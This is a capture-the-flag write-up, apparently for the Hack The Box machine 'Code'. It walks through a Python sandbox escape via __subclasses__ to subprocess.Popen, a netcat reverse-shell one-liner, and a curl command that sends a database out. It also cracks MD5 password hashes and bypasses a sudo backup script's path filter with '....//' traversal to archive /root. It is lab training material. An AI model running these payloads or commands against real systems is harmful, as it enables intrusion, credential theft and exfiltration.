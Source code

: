 ## ENUM

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
```

site hosted at: [http://10.10.11.62:5000/](http://10.10.11.62:5000/)

```
===============================================================
[+] Url:                     http://10.10.11.62:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 818]
/codes                (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 730]
/logout               (Status: 302) [Size: 189] [--> /]
/register             (Status: 200) [Size: 741]
Progress: 4614 / 4615 (99.98%)
===============================================================
```

I will now use the site normally with Burp to analyze the traffic.

## INITIAL ACCESS

By using the service, I register a code and access it via the interface located at [http://10.10.11.62:5000/codes](http://10.10.11.62:5000/codes)

![alt text](note/ctf/asset/HTB_code0.png)

I notice the ID which may possibly be a lead to follow.

I will analyze the traffic in detail now that I have tested the service.

I find this cookie after my registration:
`.eJzNj7EKAjEQRH9l3TpcY3d_IFiInchxLMleXIgbyCaKHPfvphVLG6sp3ryBWXFeEtmNDcfrilB74J3NKDI6PHMUq4WqZAVr3neytLSDS27gSUHzE1KOIDrgtLnvhYM-KEkAXziwVqFkA5wSkzHU8gKK9Hfu76-POcqH2muTw2ZcZgk47rc3MC-Avg.aGhhzw.XzQb8mECgGghn8HdWybDRBwF9h8`

I try exploiting the code ID but nothing interesting…

I focus on the code window itself.

I can’t do imports etc. However, it does display complete errors (via `raise`, `Exception`, etc.). Maybe I can leak something?

I will try to leak the classes loaded in memory. Why?

To find a library already loaded (so without import) and use it without being blacklisted!

To find useful classes to execute code such as subprocess.Popen which allows executing commands:

```python
classes = (()).__class__.__bases__[0].__subclasses__()
for i, cls in enumerate(classes):
    print(i, cls)
```

and I find it here: `317 <class 'subprocess.Popen'>`

I try to execute it like this:
`(()).__class__.__bases__[0].__subclasses__()[317]("ls", shell=True).communicate()`

but it doesn’t work, so I use raise!

```python
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](  
    "whoami", shell=True, stdout=-1).communicate()))
```

![alt text](note/ctf/asset/HTB_code1.png)

Perfect, I generate a reverse shell payload!

```python
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](  
    "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.123 4848 >/tmp/f", shell=True, stdout=-1).communicate()))
```

And I can display user.txt.

## OWN USER:

Now that I am on the machine, I will search some files including app.py which corresponds to the application, I find interesting elements:

```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```

I see a secret key and a database.

```shell
root:x:0:0:root:/root:/bin/bash
...
app-production:x:1001:1001:,,,:/home/app-production:/bin/bash
martin:x:1000:1000:,,,:/home/martin:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

So a user named martin and root (since im app-production).

And if the database contained martin’s password?

I exfiltrate it: `curl -F 'data=@/home/app-production/app/instance/database.db' http://ip:port`

and I find:

| user        | password                         |
| ----------- | -------------------------------- |
| development | 759b74ce43947f5f4c91aeddc3e5bad3 |
| martin      | 3de6f30c4a09c27fc71932bfc68474be |

I try SSH login with it but it doesn’t work and that’s normal… it looks a lot like an MD5 hash! I crack it: `nafeelswordsmaster`

`ssh martin@10.10.11.62`

and it works!

I crack the dev one just in case: `development`

Here are the interesting results from linpeas:

#### Linpeas results:

processes running as root:

```
root         851  0.0  0.2 241372 11340 ?        Ssl  Jul04   0:00 /usr/sbin/ModemManager
...
root        3075  0.0  0.2 249528  9512 ?        Ssl  Jul04   0:00 /usr/lib/upower/upowerd
```

#### BIG LEAD

```
Matching Defaults entries for martin on localhost:                                                                                                                                                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

I analyze the script:

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

It parses a JSON used to make a backup with backy, so if I provide a good JSON that extracts root (via a custom path traversal that bypasses the filter: `updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file"))`

then I will be able to own root. I look for documentation:

[https://github.com/vdbsh/backy](https://github.com/vdbsh/backy) perfect, I cook the JSON:

```json
{
  "destination": "/home/martin",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
  ]
}
```

I execute it: `sudo /usr/bin/backy.sh payload.json`

and I retrieve the tar.gz file:
`scp martin@10.10.11.62:/home/martin/code_home_.._root_2025_July.tar.bz2 .`

and I own root! ✅
